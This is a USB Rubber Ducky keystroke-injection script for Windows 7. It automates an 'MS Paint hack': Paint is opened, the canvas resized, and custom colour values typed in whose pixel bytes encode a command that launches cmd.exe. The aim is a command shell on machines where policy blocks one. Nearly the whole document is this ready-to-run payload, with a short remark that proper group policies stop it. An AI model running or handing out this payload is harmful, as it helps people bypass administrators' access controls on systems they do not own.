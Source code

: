 REM The following is some duck script I made for easily setting up the MS Paint hack from way back in episode 925. Machines secured correctly with group policies are not susceptible to this attack. You are still required to save the file correctly, and input the colors in the correct order, but they should already be in the correct order in the custom color box. The setup script can only work for Windows 7, because Windows Vista's paint app messes up the input.

REM by overwraith
REM PAINTHACK_WINDOWS7 BEGINS
REM MSPAINT hack revealed by "Operator"
CONTROL ESCAPE
DELAY 200
STRING mspaint
ENTER
DELAY 1000
CTRL e
STRING 6
TAB
STRING 1
ENTER
CTRL PAGEUP
REPEAT 5
REM ****FIRST COLOR****
ALT h
STRING EC
ALT r
STRING 10
TAB
STRING 0
TAB
STRING 0
ENTER
REM ****SECOND COLOR****
ALT h
STRING EC
ALT r
STRING 13
TAB
STRING 10
TAB
STRING 13
ENTER
REM ****THIRD COLOR****
ALT h
STRING EC
ALT r
STRING 100
TAB
STRING 109
TAB
STRING 99
ENTER
REM ****FOURTH COLOR****
ALT h
STRING EC
ALT r
STRING 120
TAB
STRING 101
TAB
STRING 46
ENTER
REM ****FIFTH COLOR****
ALT h
STRING EC
ALT r
STRING 0
TAB
STRING 0
TAB
STRING 101
ENTER
REM ****SIXTH COLOR****
ALT h
STRING EC
ALT r
STRING 0
TAB
STRING 0
TAB
STRING 0
ENTER
